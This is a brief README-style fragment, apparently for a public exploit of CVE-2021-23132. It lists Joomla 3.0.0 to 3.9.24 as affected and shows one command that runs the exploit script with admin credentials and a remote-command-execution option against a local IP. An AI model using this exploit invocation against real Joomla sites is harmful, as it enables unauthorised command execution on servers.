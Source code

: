 ## 影响范围

```http
3.0.0 <= Joomla! <= 3.9.24
```

## EXP

```bash
python3 cve-2021-23132.py -url http://192.168.72.140 -u admin -p 1234  -rce 1 -cmd ls
```
